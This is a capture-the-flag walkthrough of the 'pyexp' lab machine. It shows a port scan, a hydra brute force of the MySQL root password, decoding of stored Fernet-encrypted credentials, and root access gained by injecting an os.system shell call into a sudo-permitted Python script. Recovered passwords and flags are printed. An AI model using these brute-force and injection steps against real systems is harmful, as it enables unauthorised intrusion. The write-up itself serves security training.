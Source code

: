 # Pxexp

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled.png)

```bash
IP : 192.168.249.139
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pyexp]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 11:44 EDT
Nmap scan report for 192.168.249.139
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 47
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Speaks41ProtocolNew, IgnoreSigpipes, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, InteractiveClient, ODBCClient, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Support41Auth, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <Y-t"G#s>{qEC`:@p7`]
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:26:C6:0F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## MySQL Enumeration ⤵️

Lets try hydra for mysql login with user as root →

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.249.139 -t 4
```

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%201.png)

Got credentials as →

```bash
root : prettywoman
```

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%202.png)

Now lets dig deeper →

```bash
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.001 sec)
MariaDB [data]> select * from fernet \G ;
*************************** 1. row ***************************
cred: gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=
keyy: UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
1 row in set (0.001 sec)

ERROR: No query specified

MariaDB [data]>
```

Now I searched for fernet decode and  I got this site →

[https://asecuritysite.com/tokens/ferdecode](https://asecuritysite.com/tokens/ferdecode)

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%203.png)

```bash
credentials ->
lucy  :  wJ9`"Lemdv9[FEw-
```

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%204.png)

Now lets find path to root →

```bash
lucy@pyexp:~$ 
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/sh")
# exit
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/bash"); 
root@pyexp:/home/lucy# whoami
root
root@pyexp:/home/lucy# id
uid=0(root) gid=0(root) groups=0(root)
root@pyexp:/home/lucy# cd ~
root@pyexp:~# ls -al
total 32
drwx------  3 root root 4096 Aug 10  2020 .
drwxr-xr-x 18 root root 4096 Aug 10  2020 ..
-rw-------  1 root root    5 Aug 10  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 10  2020 .local
-rw-------  1 root root 2731 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 10  2020 root.txt
root@pyexp:~# cat root.txt
a7a7e80ff4920ff06f049012700c99a8
root@pyexp:~#
root@pyexp:/home/lucy# ls
user.txt
root@pyexp:/home/lucy# cat user.txt
8ca196f62e91847f07f8043b499bd9be
root@pyexp:/home/lucy#
```